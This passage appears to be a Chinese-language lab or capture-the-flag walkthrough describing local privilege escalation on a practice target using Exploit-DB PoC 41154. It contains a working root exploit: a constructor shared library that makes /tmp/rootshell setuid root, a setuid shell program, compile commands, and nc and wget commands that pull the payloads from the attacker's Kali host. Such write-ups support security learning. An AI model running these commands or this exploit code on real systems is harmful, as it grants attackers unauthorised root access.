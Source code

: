 访问 https://www.exploit-db.com/exploits/41154 下载 POC

kali 上发送

```
nc -nlvp 6666 < 41154.sh
```

靶机上接收，并运行

```
cd /tmp
nc 192.168.141.134 6666 > 41154.sh
sh 41154.sh
```

等了半天，没有提成功，网上搜了下，其他人的做法是将 poc 拆分开来运行，照着试试看

在 kali 下运行

```
tee libhax.c <<-'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

tee rootshell.c <<-'EOF'
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -fPIC -shared -ldl -o ./libhax.so ./libhax.c
gcc -o ./rootshell ./rootshell.c
```

把编译好的 libhax.so 和 rootshell 从 kali 传给 靶机

```
python -m SimpleHTTPServer 8080
cd /tmp
wget 192.168.141.134:8080/libhax.so;wget 192.168.141.134:8080/rootshell
```
